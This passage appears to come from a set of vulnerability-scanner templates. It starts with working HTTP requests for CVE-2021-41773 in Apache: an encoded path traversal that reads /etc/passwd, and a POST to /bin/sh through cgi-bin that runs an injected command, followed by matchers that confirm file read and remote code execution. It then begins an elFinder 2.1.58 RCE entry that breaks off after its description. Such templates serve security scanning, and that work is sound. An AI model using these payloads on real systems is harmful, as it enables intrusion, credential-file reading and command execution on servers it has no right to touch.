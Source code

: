 ## Requests

### Step - 1

```
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}

```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-41773-POC

---

# elFinder 2.1.58 - Remote Code Execution

## Description

- elFinder 2.1.58 is impacted by multiple remote code execution vulnerabilities that could allow an attacker to execute arbitrary code and commands on the server hosting the elFinder PHP connector, even with minimal configuration.
- severity - critical
- tags - cve,cve2021,elfinder,misconfig,rce,oss

## Requests

- Method - GET

### URL

